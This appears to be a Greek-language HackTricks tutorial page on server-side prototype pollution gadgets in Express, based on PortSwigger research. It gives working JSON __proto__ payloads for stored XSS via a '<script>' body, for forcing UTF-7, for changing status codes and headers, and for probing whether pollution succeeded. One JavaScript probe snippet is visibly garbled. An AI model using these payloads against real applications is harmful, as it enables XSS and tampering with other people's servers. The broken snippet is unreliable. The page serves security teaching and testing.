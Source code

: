 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## Serve XSS responses

**Για περισσότερες λεπτομέρειες** [**ρίξτε μια ματιά στην αρχική έρευνα**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Σε μια εφαρμογή Express που χρησιμοποιεί **JSON content type response** και ανακλά ένα JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Σε αυτές τις περιπτώσεις, το XSS δεν είναι συνήθως δυνατό με τύπο περιεχομένου JSON. Ωστόσο, με την μόλυνση πρωτοτύπου μπορούμε να **μπερδέψουμε το Express ώστε να εξυπηρετήσει μια HTML απάντηση.** Αυτή η ευπάθεια βασίζεται στη χρήση του **`res.send(obj)`** από την εφαρμογή και στη χρήση του body parser με τον τύπο περιεχομένου application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Με την **ρύπανση** των ιδιοτήτων **`body`** και **`_body`**, είναι δυνατόν να προκαλέσετε **την Express να σερβίρει τον τύπο περιεχομένου HTML** και να ανακλά την ιδιότητα `_body`, με αποτέλεσμα αποθηκευμένο XSS.

### Απόδοση UTF7

Είναι δυνατόν να κάνετε την express **να αποδώσει περιεχόμενο UTF-7 με**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Ασφαλείς Τεχνικές Σάρωσης

### JSON spaces

Το παρακάτω PP θα προσθέσει ένα επιπλέον διάστημα στα χαρακτηριστικά μέσα σε ένα JSON που δεν θα σπάσει τη λειτουργικότητα:
```json
{ "__proto__": { "json spaces": " " } }
```
Τότε ένα αντανάκλαση JSON θα φαίνεται έτσι:
```json
{"foo":  "bar"} -- Note the extra space
```
### Εκτεθειμένες Κεφαλίδες

Το παρακάτω gadget PP θα κάνει τον διακομιστή να στείλει πίσω την κεφαλίδα HTTP: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Απαιτείται η **εγκατάσταση του CORS module**

### **Μέθοδος OPTIONS**

Με το παρακάτω payload, είναι δυνατόν να **κρυφτεί μια μέθοδος από μια απάντηση OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Κατάσταση**

Είναι δυνατόν να αλλάξετε τον **κωδικό κατάστασης που επιστρέφεται** χρησιμοποιώντας το παρακάτω φορτίο PP:
```json
{ "__proto__": { "status": 510 } }
```
### Σφάλμα

Όταν αναθέτετε σε ένα πρωτότυπο με μια πρωτογενή τιμή όπως μια συμβολοσειρά, παράγει μια **λειτουργία no-op καθώς το πρωτότυπο πρέπει να είναι ένα αντικείμενο**. Εάν προσπαθήσετε να αναθέσετε ένα αντικείμενο πρωτοτύπου στο `Object.prototype` αυτό θα **ρίξει μια εξαίρεση**. Μπορούμε να χρησιμοποιήσουμε αυτές τις δύο συμπεριφορές για να **ανιχνεύσουμε αν η ρύπανση του πρωτοτύπου ήταν επιτυχής**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Αντανάκλαση Τιμής

Όταν μια εφαρμογή περιλαμβάνει ένα αντικείμενο στην απάντησή της, η δημιουργία ενός χαρακτηριστικού με **ασυνήθιστο όνομα μαζί με το `__proto__`** μπορεί να είναι διαφωτιστική. Συγκεκριμένα, αν **μόνο το ασυνήθιστο χαρακτηριστικό επιστρέφεται** στην απάντηση, αυτό θα μπορούσε να υποδηλώνει την ευπάθεια της εφαρμογής:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Επιπλέον, σε σενάρια όπου χρησιμοποιείται μια βιβλιοθήκη όπως το Lodash, η ρύθμιση μιας ιδιότητας τόσο μέσω της ρύθμισης πρωτοτύπου (PP) όσο και άμεσα μέσα στο αντικείμενο προσφέρει μια άλλη διαγνωστική προσέγγιση. Εάν μια τέτοια ιδιότητα παραλειφθεί από την απάντηση, υποδηλώνει ότι το Lodash επαληθεύει την ύπαρξη της ιδιότητας στο στοχευόμενο αντικείμενο πριν από τη συγχώνευση:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Διάφορα

### Επιτρέψτε Τελείες

Υπάρχει μια επιλογή στο Express που σας επιτρέπει να **δημιουργείτε αντικείμενα από παραμέτρους συμβολοσειράς ερωτήματος**.\
Μπορείτε σίγουρα να το χρησιμοποιήσετε σε μια **αλυσίδα** σφαλμάτων για να εκμεταλλευτείτε μια **ευπάθεια μόλυνσης πρωτοτύπου**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` δημιουργεί ένα αντικείμενο στο Node.**

## Αναφορές

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
